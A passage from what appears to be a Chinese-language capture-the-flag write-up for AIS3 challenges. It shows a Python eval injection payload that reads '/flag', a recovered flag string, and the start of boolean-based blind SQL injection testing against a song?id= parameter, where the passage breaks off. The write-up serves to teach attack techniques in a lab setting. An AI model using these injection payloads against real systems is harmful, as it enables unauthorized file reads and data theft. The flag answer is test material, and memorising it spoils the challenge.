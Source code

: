 找 檔案位置
##### 3.3 更改檔案路徑
```
"expression":"8+9,open('/flag').read()"
```
![image](https://hackmd.io/_uploads/BJvCFfkN0.png)

### Get FLAG
**FLAG: AIS3{7RiANG13_5NAK3_I5_50_3Vi1}**

## It's MyGO!!!!!
![image](https://hackmd.io/_uploads/BJzOsWJEC.png)\
http://chals1.ais3.org:11454 

![image](https://hackmd.io/_uploads/SJKqo-kV0.png)

簡介:\
http://chals1.ais3.org:11454/#intro \
成員介紹:\
http://chals1.ais3.org:11454/#members \
原創曲:\
http://chals1.ais3.org:11454/#songs

### It's MyGO!!!!! Solution
原創曲: http://chals1.ais3.org:11454/#songs
![image](https://hackmd.io/_uploads/HytQa-y4A.png)
> <<迷星叫>>: http://chals1.ais3.org:11454/song?id=1 \
> <<迷路日々>>: http://chals1.ais3.org:11454/song?id=2 \
> <<碧天伴走>>: http://chals1.ais3.org:11454/song?id=3 \
> <<春日影>>: http://chals1.ais3.org:11454/song?id=4
    
http://chals1.ais3.org:11454/song?id=5
![image](https://hackmd.io/_uploads/HyOa6WyNC.png)

```
HTTP/1.1 304 Not Modified
X-Powered-By: Express
ETag: W/"1ce-E8tYwjH5/hmxMrE8bCoPavlhCP4"
Date: Sat, 25 May 2024 07:05:10 GMT
Connection: close
```
#### ' 會被擋
http://chals1.ais3.org:11454/song?id=%22
> 沒有回應
    
#### Blind sql injections
根據這篇文獻:https://owasp.org/www-community/attacks/Blind_SQL_Injection
測試是否 Blind sql injections
1. (Blind-boolean-based SQLi): AND 1=1
![image](https://hackmd.io/_uploads/rJwjypgVA.png)
> 2%20AND%201=1
> 正常顯示
